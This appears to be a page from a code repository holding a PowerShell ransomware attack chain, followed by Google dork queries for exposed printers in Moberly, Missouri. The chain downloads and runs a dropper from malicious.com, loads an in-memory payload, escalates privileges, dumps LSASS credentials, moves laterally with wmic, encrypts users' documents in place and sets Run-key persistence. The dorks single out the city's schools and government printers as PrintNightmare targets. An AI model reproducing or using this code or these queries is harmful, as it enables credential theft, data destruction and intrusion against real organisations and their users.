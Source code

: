 ```powershell
# Initial Access: Load dropper
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution: Decode and load in-memory payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption Example
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
```

---

## Reconnaissance with Google Dorks

**Example Objective:** Identify publicly exposed printer services in Moberly, Missouri, potentially vulnerable to exploits like PrintNightmare.

**Sample Google Dork Queries:**

```
inurl:"/hp/device/this.LCDispatcher" "Moberly"
intitle:"Printer Status" "Moberly Public Schools"
intitle:"Web Image Monitor" inurl:"/wim" "Moberly"
inurl:"/printer/main.html" "City of Moberly"
intitle:"Web Jetadmin" "Moberly"
inurl:"/printers/" "Moberly"
inurl:"/PPS/public/" "Moberly"
intitle:"Konica Minolta" inurl:"/wcd/" "Moberly"
intitle:"PaperCut MF" "Moberly"
intitle:"Lexmark" inurl:"/printer/" "Moberly"
intitle:"Canon Remote UI" "Moberly"
intitle:"EpsonNet Config" "Moberly"
```

---